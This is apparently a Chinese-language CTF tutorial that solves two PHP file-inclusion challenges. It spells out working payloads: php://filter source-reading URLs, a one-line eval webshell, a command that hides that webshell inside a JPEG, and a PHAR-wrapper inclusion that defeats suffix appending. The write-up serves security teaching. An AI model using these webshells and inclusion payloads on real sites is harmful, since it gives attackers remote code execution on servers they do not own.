# CTF教程：P58：文件包含漏洞实战解析 🎯







在本节课中，我们将通过两道CTF实战题目，深入学习和理解文件包含漏洞的利用方法。课程将涵盖从信息收集、源码审计到绕过过滤、最终获取权限的完整流程。



---

## 第一题：基础文件包含与上传绕过



上一节我们介绍了文件包含漏洞的基本概念，本节中我们来看看如何在实际题目中应用。

首先访问目标网站，通过查看首页`index.php`的源代码，我们发现了一个关键提示：存在一个名为`include.php`的文件。

```
<!-- 提示：试试 include.php -->
```



访问`include.php`页面，页面显示内容与`index.php`相同，并提示参数为`file`。这暗示此处存在本地文件包含（LFI）漏洞。



### 利用文件包含读取源码







通过传递`file`参数包含自身文件，可以确认漏洞存在。



```
http://target.com/include.php?file=include.php
```

接下来，我们再次查看`include.php`页面的源代码，发现了另一个线索。

```
<!-- 上传功能在 upload.php -->
```

### 审计上传功能源码

访问`upload.php`。为了了解其后台过滤逻辑，我们需要读取它的源代码。这里使用PHP伪协议配合Base64编码来绕过直接显示的限制。

核心公式如下：

```
php://filter/convert.base64-encode/resource=upload.php
```

将其作为`file`参数的值，发送请求：





```
http://target.com/include.php?file=php://filter/convert.base64-encode/resource=upload.php
```

服务器会返回`upload.php`文件经过Base64编码后的内容。解码后，我们获得了源码。分析源码发现，它只允许上传图片格式（GIF, JPEG, PNG）的文件，并检查了`Content-Type`。

### 制作图片木马并上传

由于直接上传`.php`文件会被拦截，我们需要制作一个图片木马来绕过检测。

在Windows系统下，可以使用`copy`命令将一个PHP木马追加到一个正常图片之后：

```cmd
copy normal.jpg /b + shell.php /a webshell.jpg
```

其中`shell.php`内容为一句话木马：

```php
<?php @eval($_POST['cmd']);?>
```

然后，在`upload.php`页面上传生成的`webshell.jpg`文件。





### 包含图片木马获取权限





上传成功后，我们利用之前的文件包含漏洞来执行图片中的PHP代码。

```
http://target.com/include.php?file=upload/webshell.jpg
```

最后，使用中国菜刀或蚁剑等连接工具，连接上述URL，即可成功获取服务器权限。

**解题要点总结**：
1.  通过源码注释发现关键文件。
2.  利用LFI漏洞的`php://filter`伪协议读取后端源码。
3.  分析过滤规则，制作图片木马绕过上传限制。
4.  通过文件包含执行图片中的恶意代码。

---

## 第二题：进阶过滤与PHAR协议利用

解决了第一题后，我们遇到了过滤更严格的第二题。本节中我们来看看如何利用PHAR协议和路径猜测来突破限制。

访问第二题目标，发现URL中直接提示了参数`file`，且页面内容显示“这是一个PHP文件”。

### 猜测与利用后缀拼接

测试包含自身文件时，如果直接使用`file=include`，页面能正常显示。但如果使用`file=include.php`，则返回404错误。这暗示后台代码可能自动为`file`参数的值添加了`.php`后缀。

验证猜测，使用`php://filter`协议读取自身源码：

```
http://target.com/include?file=php://filter/convert.base64-encode/resource=include
```

解码后分析`include`文件的源码，证实了我们的猜想：代码中存在类似`include($_GET[‘file’] . ‘.php’);`的逻辑。同时，源码中也过滤了`../`等目录遍历字符串，并再次提到了`upload.php`。





### 读取上传页面源码并分析

使用相同方法读取`upload.php`的源码：

```
http://target.com/include?file=php://filter/convert.base64-encode/resource=upload
```

发现其过滤规则与第一题相同。但此时，直接上传图片木马并包含的方法失效了，因为包含时路径会被拼接上`.php`（例如`upload/webshell.jpg.php`），导致文件不存在。

### 利用PHAR协议绕过限制

我们需要一种方法，让包含的文件后缀是`.php`，但其中包含我们的恶意代码。PHAR协议（Php ARchive）可以帮助我们。

以下是利用步骤：

1.  **创建恶意PHP文件**：创建一个内容为`<?php phpinfo(); ?>`或一句话木马的文件，例如`shell.php`。
2.  **打包为PHAR文件**：使用PHP代码或工具将`shell.php`打包成PHAR格式。在命令行中，可以将其重命名为`.jpg`后缀以绕过上传检测。
    ```bash
    # 假设已生成 test.phar
    copy test.phar test.jpg
    ```
3.  **上传文件**：将`test.jpg`上传到服务器。
4.  **利用PHAR协议包含**：PHAR协议可以解析压缩包内的文件。使用以下格式进行包含：
    ```
    http://target.com/include?file=phar://./upload/test.jpg/shell
    ```
    即使后台拼接了`.php`，请求变为`phar://./upload/test.jpg/shell.php`，PHAR协议也能正确解析并执行压缩包内`shell`文件对应的PHP代码。

### 获取权限



如果`shell.php`中是一句话木马，那么通过包含PHAR文件执行该木马后，即可用连接工具连接网站目录，获得权限。

**解题要点总结**：
1.  通过页面提示和测试，发现后台自动添加`.php`后缀的规则。
2.  利用此规则，配合`php://filter`读取源码，了解完整过滤逻辑（禁止目录遍历）。
3.  当直接包含图片木马失效时，转向利用PHAR协议。
4.  PHAR协议能执行压缩包内的PHP文件，从而绕过后缀名拼接导致的文件找不到问题。



---



## 课程总结 📝

本节课我们一起深入分析了两道文件包含漏洞的CTF题目。

*   **第一题** 我们学习了基础流程：信息收集（找注释） -> 漏洞确认（LFI） -> 源码审计（伪协议读源码） -> 绕过防御（制作图片马） -> 漏洞利用（包含执行）。
*   **第二题** 我们面对了更复杂的过滤：后缀自动拼接、目录遍历过滤。我们通过**路径猜测**和**PHAR协议利用**两种进阶技巧成功突破。PHAR协议利用尤其关键，它扩展了文件包含的利用面。

核心技巧回顾：
*   **信息收集是起点**：HTML注释、错误信息、页面提示都至关重要。
*   **伪协议是读源码的利器**：`php://filter`在无法直接获取源码时非常有用。
*   **绕过方式需灵活**：根据过滤规则（黑名单、后缀检测、内容检测）选择不同绕过方法（图片马、`.htaccess`、PHAR协议等）。
*   **PHAR协议用于复杂场景**：当文件包含遇到后缀限制或需要执行压缩包内代码时，PHAR协议是有效的解决方案。



希望同学们通过这两道题，能够掌握文件包含漏洞的基本利用方法和一些进阶绕过技巧。